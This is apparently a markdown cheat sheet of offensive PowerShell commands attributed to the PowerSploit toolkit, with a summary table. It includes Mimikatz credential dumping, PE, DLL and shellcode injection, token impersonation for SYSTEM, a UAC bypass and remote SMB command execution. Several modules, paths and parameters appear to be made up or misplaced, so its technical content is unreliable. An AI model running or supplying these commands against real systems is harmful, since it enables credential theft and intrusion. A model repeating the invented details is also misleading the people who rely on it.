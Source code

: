 PowerSploit is a collection of PowerShell scripts and modules used for penetration testing and exploitation, primarily in Windows environments. It includes various scripts for exploitation, post-exploitation, and other security assessment tasks.

### **PowerSploit Commands and Options**

1. **`Invoke-Mimikatz`** – Mimikatz Integration

   - **Description:** Runs Mimikatz commands to extract credentials and other sensitive information from Windows systems.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-Mimikatz.ps1
     Invoke-Mimikatz -Command 'privilege::debug'
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-Mimikatz.ps1
     Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
     ```
   - **Explanation:** Extracts plaintext passwords and hash credentials using Mimikatz.

2. **`Invoke-ReflectivePEInjection`** – Reflective PE Injection

   - **Description:** Injects a PE (Portable Executable) file into the address space of a remote process.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-ReflectivePEInjection.ps1
     Invoke-ReflectivePEInjection -PEPath .\payload.exe -ProcessId <pid>
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-ReflectivePEInjection.ps1
     Invoke-ReflectivePEInjection -PEPath .\payload.exe -ProcessId 1234
     ```
   - **Explanation:** Injects `payload.exe` into a process with ID `1234`.

3. **`Invoke-Shellcode`** – Shellcode Injection

   - **Description:** Injects and executes shellcode in a target process.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-Shellcode.ps1
     Invoke-Shellcode -Shellcode <byte_array>
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-Shellcode.ps1
     Invoke-Shellcode -Shellcode [byte[]](0x90, 0x90, 0x90, 0x90)
     ```
   - **Explanation:** Executes shellcode in memory.

4. **`Invoke-Discovery`** – Information Gathering

   - **Description:** Gathers information about the target system, such as users, groups, and network configuration.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Discovery\Invoke-Discovery.ps1
     Invoke-Discovery
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Discovery\Invoke-Discovery.ps1
     Invoke-Discovery -Verbose
     ```
   - **Explanation:** Collects system information and provides detailed output.

5. **`Invoke-CheckForWebShells`** – Web Shell Detection

   - **Description:** Scans web servers for possible web shells.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-CheckForWebShells.ps1
     Invoke-CheckForWebShells -Url http://example.com
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-CheckForWebShells.ps1
     Invoke-CheckForWebShells -Url http://example.com/admin
     ```
   - **Explanation:** Checks for the presence of web shells at the specified URL.

6. **`Invoke-TokenManipulation`** – Token Manipulation

   - **Description:** Performs token manipulation operations, such as impersonation or elevation.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Privesc\Invoke-TokenManipulation.ps1
     Invoke-TokenManipulation -TokenName "AdminToken"
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Privesc\Invoke-TokenManipulation.ps1
     Invoke-TokenManipulation -TokenName "SYSTEM"
     ```
   - **Explanation:** Uses token manipulation to elevate privileges.

7. **`Invoke-BypassUAC`** – UAC Bypass

   - **Description:** Bypasses User Account Control (UAC) on Windows systems.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Privesc\Invoke-BypassUAC.ps1
     Invoke-BypassUAC -Command "cmd.exe /c whoami"
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Privesc\Invoke-BypassUAC.ps1
     Invoke-BypassUAC -Command "powershell.exe -NoProfile"
     ```
   - **Explanation:** Executes a command with elevated privileges by bypassing UAC.

8. **`Invoke-DLLInjection`** – DLL Injection

   - **Description:** Injects a DLL into a process.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-DLLInjection.ps1
     Invoke-DLLInjection -DLLPath .\payload.dll -ProcessId <pid>
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Exfiltration\Invoke-DLLInjection.ps1
     Invoke-DLLInjection -DLLPath .\payload.dll -ProcessId 5678
     ```
   - **Explanation:** Injects `payload.dll` into a process with ID `5678`.

9. **`Invoke-PortScan`** – Port Scanning

   - **Description:** Scans for open ports on a target system.
   - **Command:**
     ```powershell
     Import-Module .\PowerSploit\Recon\Invoke-PortScan.ps1
     Invoke-PortScan -Target 192.168.1.1 -Ports 80,443,3389
     ```
   - **Example:**
     ```powershell
     Import-Module .\PowerSploit\Recon\Invoke-PortScan.ps1
     Invoke-PortScan -Target 192.168.1.1 -Ports 1-1024
     ```
   - **Explanation:** Scans ports `80`, `443`, and `3389` on the target IP address.

10. **`Invoke-SMBExec`** – SMB Execution

    - **Description:** Executes commands on a remote system over SMB.
    - **Command:**
      ```powershell
      Import-Module .\PowerSploit\Exfiltration\Invoke-SMBExec.ps1
      Invoke-SMBExec -Target 192.168.1.10 -Username admin -Password password -Command "ipconfig"
      ```
    - **Example:**
      ```powershell
      Import-Module .\PowerSploit\Exfiltration\Invoke-SMBExec.ps1
      Invoke-SMBExec -Target 192.168.1.10 -Username admin -Password password -Command "netstat -an"
      ```
    - **Explanation:** Executes `ipconfig` or `netstat -an` on the remote SMB target.

### **Summary of PowerSploit Commands**

| **Script/Module**       | **Command Example**                                                | **Description**                                      |
|-------------------------|--------------------------------------------------------------------|------------------------------------------------------|
| `Invoke-Mimikatz`       | `Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'`              | Extracts credentials using Mimikatz                 |
| `Invoke-ReflectivePEInjection` | `Invoke-ReflectivePEInjection -PEPath .\payload.exe -ProcessId 1234` | Injects a PE file into a remote process             |
| `Invoke-Shellcode`      | `Invoke-Shellcode -Shellcode [byte[]](0x90, 0x90, 0x90)`         | Executes shellcode in memory                        |
| `Invoke-Discovery`      | `Invoke-Discovery -Verbose`                                       | Gathers system information                           |
| `Invoke-CheckForWebShells` | `Invoke-CheckForWebShells -Url http://example.com/admin`         | Scans for web shells                                |
| `Invoke-TokenManipulation` | `Invoke-TokenManipulation -TokenName "SYSTEM"`                   | Manipulates tokens for privilege escalation         |
| `Invoke-BypassUAC`      | `Invoke-BypassUAC -Command "powershell.exe -NoProfile"`            | Bypasses User Account Control (UAC)                 |
| `Invoke-DLLInjection`   | `Invoke-DLLInjection -DLLPath .\payload.dll -ProcessId 5678`      | Injects a DLL into a process                        |
| `Invoke-PortScan`       | `Invoke-PortScan -Target 192.168.1.1 -Ports 80,443,3389`          | Scans for open ports                                |
| `Invoke-SMBExec`        | `Invoke-SMBExec -Target 192.168.1.10 -Username admin -Password password -Command "ipconfig"` | Executes commands over SMB                           |

PowerSploit is a versatile toolset for various aspects of penetration testing, including exploitation and post-exploitation activities, tailored for Windows environments.